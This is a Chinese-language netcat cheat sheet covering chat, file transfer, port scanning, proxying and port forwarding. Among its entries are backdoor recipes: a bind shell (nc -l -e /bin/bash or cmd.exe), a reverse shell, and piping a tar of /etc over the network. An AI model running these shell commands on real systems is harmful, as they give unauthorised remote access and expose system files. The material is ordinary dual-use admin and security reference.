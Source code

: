 # nc使用

Chat
```
# 发送端
nc -l 3333
# 接受端
nc 127.0.0.1 3333
```

传送文件
```
# 发送端
`cat backup.iso | nc -l 3333`
# 接收端
`nc 192.168.0.1 3333 > backup.iso`
```


显示传送进度，可以使用管道监控,pv命令
```
`cat backup.iso | pv -b | nc -l 3333`
`nc 192.168.0.1 3333 | pv -b > backup.iso`
```


本地打包文件，传送到远端
```
`tar -czf - /etc/ | nc -l 3333`
`nc 192.168.0.1 3333 | pv -b > mybackup.tar.gz`
```

端口扫描
```
扫描端口，并返回相关信息
nc -z 192.168.0.1 80-90
```

如何正确的加密聊天
```
nc -l 3333
ssh  yantze@192.168.0.1 sleep 1; nc 127.0.0.1 3333
```

如何正确的创建后门
```
nc -l 3333 -e /bin/bash
nc -l 3333 -e cmd.exe
nc 127.0.0.1 3333
```

如何逆向后门
```
nc -l 3333
nc 127.0.0.1 3333 -e /bin/bash
```

指定代理方式
> 以 http 的方式把 host.example.com:42 映射到 10.2.3.4:8080
```
nc -x10.2.3.4:8080 -Xconnect host.example.com 42
```

SSH over Socks
```
ssh -o ProxyCommand='/usr/bin/nc -x 127.0.0.1:1080 %h %p' -i "xxx.pem" user@host
```

nc over pipe ( port forwarding )
```
mkfifo a
mkfifo b
nc 127.0.0.1 8000 < b > a &
nc -l 8001 < a > b &
```

ssh 版本端口转发(远程转发，访问 host:8080 就相当于访问 localhost:80)
```
ssh -R 0.0.0.0:8080:localhost:80 user@host
# -R remote 的缩写
# -R [远程主机:]远程主机端口:登录主机:登录主机端口
# 0.0.0.0:8080 部分就是在 user@host 中建立 LISTEN 0.0.0.0:8080
```

## See Also
- [socat](./socat.md)
- [ssh](./ssh.md)

## Ref
- https://www.sans.org/security-resources/sec560/netcat_cheat_sheet_v1.pdf
- http://www.g-loaded.eu/2006/11/06/netcat-a-couple-of-useful-examples/
- https://dragula.viettug.org/blogs/263.html
